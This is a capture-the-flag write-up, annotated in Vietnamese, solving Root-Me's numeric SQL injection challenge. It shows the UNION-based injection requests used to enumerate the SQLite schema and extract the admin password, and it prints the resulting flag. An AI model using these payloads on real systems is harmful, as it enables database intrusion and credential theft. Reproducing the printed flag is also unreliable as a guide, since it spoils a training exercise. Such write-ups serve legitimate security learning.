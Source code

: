 # [SQL injection - Numeric](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-Numeric)

## Solutions

Integer injection

Xuất hiện lỗi khi request `GET /web-serveur/ch18/?action=news&news_id=2'`, có lỗi `SQLite3::query(): Unable to prepare statement: 1, unrecognized token: "\" in`

Khai thác:

- `GET /web-serveur/ch18/?action=news&news_id=1+ORDER+BY+100+--`:
  - Response: `ORDER BY term out of range - should be between 1 and 3`
  - => số cột là 3
- `GET /web-serveur/ch18/?action=news&news_id=1+UNION+SELECT+1,+2,+3+FROM+sqlite_master+--`:
  - chỉ hiển thị số 2 và 3
- `GET /web-serveur/ch18/?action=news&news_id=1+UNION+SELECT+1,+name,+3+FROM+sqlite_master+--`:
  - biết được có bảng `news` và `users`
- `GET /web-serveur/ch18/?action=news&news_id=1+UNION+SELECT+1,+name,+NULL+FROM+PRAGMA_TABLE_INFO('users') --`:
  - `unrecognized token: "\" in`
  - bị lỗi do `'` bị escaped, => không tìm được tên cột theo cách cũ
- `GET /web-serveur/ch18/?action=news&news_id=1+UNION+SELECT+NULL,+sql,+name+FROM+sqlite_master+--`:
  - `CREATE TABLE news(id INTEGER, title TEXT, description TEXT)`
  - `CREATE TABLE users(username TEXT, password TEXT, Year INTEGER)`
  - => có được tên các cột của bảng users
- `GET /web-serveur/ch18/?action=news&news_id=1+UNION+SELECT+NULL,+username,+password+FROM+users--`:

  ```html
  <b>admin</b><br/><p>aTlkJYLjcbLmue3</p>
  ```

Flag: `aTlkJYLjcbLmue3`

